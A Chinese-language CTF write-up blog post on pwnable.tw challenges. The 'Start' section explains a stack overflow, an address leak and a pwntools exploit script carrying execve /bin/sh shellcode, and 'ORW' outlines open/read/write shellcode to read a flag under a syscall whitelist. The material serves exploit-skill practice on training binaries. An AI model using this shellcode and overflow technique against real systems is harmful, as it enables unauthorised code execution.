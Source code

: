 ```yaml
---
title: pwnable-tw Trip
date: 2019-01-18 12:09:38
tags: pwn updating
layout: post
---
```

pwnable.tw
an interesting trip 



# Start
    checksec发现保护都没开，应该是直接写shellcode然后ret2shellcode的类型
    then 用 gdb 的pattc/patto 测ret's offset：20
        同时发现程序比较小只有两部分
        （应该是直接的汇编程序）
        1.输出 
        2.写入（长度不限 20byte 溢出）
    但是因为需要ret 到stack上所以需要泄露栈地址
    于是乎就通过第一次输出ret到输出之前输出栈上的内容 经过测试发现
    ret 0x8048087可以泄露栈内容
    这里需要注意用send而不是sendline（如果不利用输出的第一个地址也可以用sendline）
    因为sendline会覆盖泄露的内容的最低字节导致计算不准（我就在这里百思不得其解后来才发现、、、）
    然后计算的出shellcode's address
    
    EXP:
    ```python
    from pwn import *
    context.log_level='debug'
    shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
    #p=remote("chall.pwnable.tw",10000)
    print len(shellcode)
    p=process("./start")
    print p.recvuntil(":")
    raw_input() 
    p.sendline("".ljust(20,'x')+p32(0x8048087))
    data=p.recv()
    leak=(u32(data[:4]))
    print hex(leak)
    sleep(1)
    p.sendline('a'*20+p32(leak+20)+shellcode)
    ```
   
# ORW
    checksec之后依然什么保护都没开于是丢进了IDA
    ![](./2018-6-1-1.png)
    line5:写入一个0xc8长度的shellcode到&shellcode
    line6:call shellcode
    然后line3函数中比较重要的部分是prctl
    [prctl.h][1]
    发现这个函数使用了PR_GET_NO_NEW_PRIVS 避免安全漏洞
    白名单：open，read，write
    于是我们可以写shellcode：
    open /home/orw/flag
    read flag
    write flag
    

[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert